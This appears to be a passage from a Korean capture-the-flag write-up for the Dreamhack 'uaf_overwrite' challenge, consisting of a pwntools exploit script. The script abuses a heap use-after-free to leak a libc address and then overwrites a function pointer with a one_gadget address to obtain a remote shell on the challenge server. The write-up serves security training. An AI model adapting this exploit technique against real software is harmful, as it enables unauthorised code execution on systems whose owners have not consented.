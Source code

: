 ## Exploit

위에서 얻은 것들을 토대로 익스플로잇 코드를 작성하면 다음과 같다.

```python
# Name: uaf_overwrite.py

from pwn import *

def slog(name,addr): success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 16430

p = remote(HOST,PORT)
# p = process('./uaf_overwrite')

# context.log_level = 'debug'

def human(weight, age):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b': ', str(weight).encode())
    p.sendlineafter(b': ', str(age).encode())

def robot(weight):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b': ', str(weight).encode())

def custom(size, data, idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b': ', str(size).encode())
    p.sendafter(b': ', data)
    p.sendlineafter(b': ', str(idx).encode())


# [1] UAF to calculate 'libc_base'
dummy, tag = b'AAAA', b'B'
custom(0x410, dummy, -1)
custom(0x410, dummy, 0)
custom(0x410, tag, -1)

offset, one_gadget_offeset = 0x3ebca0, 0x10a41c
offset //= 0x100
offset *= 0x100
offset += u64(tag.ljust(8, b'\x00'))
libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - offset
one_gadget = libc_base + one_gadget_offeset

slog('libc_base', libc_base)
slog('one_gadget', one_gadget)

# [2] UAF to manipulate `robot->fptr` and get shell
human(1, one_gadget)
robot(1)

p.interactive()
```